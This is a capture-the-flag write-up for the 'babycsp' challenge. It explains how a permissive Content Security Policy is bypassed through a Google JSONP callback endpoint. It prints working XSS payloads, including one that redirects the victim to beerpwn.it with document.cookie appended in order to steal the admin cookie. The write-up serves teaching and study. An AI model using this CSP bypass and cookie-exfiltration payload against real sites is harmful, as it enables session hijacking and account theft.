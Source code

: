 # WRITEUP BABYCSP

## Author: p4w @beerpwn team

![Image desc](./description.png)

As the descrption/title say we will probably need to bypass CSP to trigger some XSS in order to steal the admin cookies.
Sufing to the index page we have this:
![Image index](./index.png)

The input that we can pass is totally NOT filtered and safe from XSS.

## Understanding the CSP
The ```script-src 'self' *.google.com``` directive permit to use scripts that are coming from *.google.com, and also from the same domain.
The ```connect-src *``` directive restricts the URLs which can be loaded using script interfaces. Then in this case every URL are allowed.

## Bypassing the CSP
This is what I was thinking during the CTF:
since we can't control directily any file contents from the same domain, then we can try to 'host' some XSS payload on google subdomain. At the beginning I tried to use googleDrive to host some XSS-file but i had no lucky with that and I dind't manage to serve the raw file from google subdomains. So the second idea that comes in my mind was to use JSONP callback. More info about JSONP <a href="https://www.w3schools.com/js/js_json_jsonp.asp">here</a>. So after a bit of googling I found <a href='https://github.com/zigoo0/JSONBee'>this</a> page. So I used this ```https://cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()``` endpoint for JSONP callback.

![Image index](./alert_jsonp.png)

## Fire the XSS 
Now with this payload
`<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()'></script>
`
we will be able to pop up an alert bypassing the CSP.
The only problem that I had to solve now is that some character are not usable with this JSON endpoint as we can see here:
![Image index](./baned_char_enum.png)
This `? / ,` and probably more others are not allowed to construct the callback function.
So i comed up with this payload to avoid the bad char:
<code>
<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=location.replace(String.fromCharCode(47).concat(String.fromCharCode(47).concat("beerpwn.it").concat(String.fromCharCode(47).concat(document.cookie))))'></script>
</code>

With this payload we can grab the admin-cookie and get the flag:

![Image index](./server_log.png)
flag: 

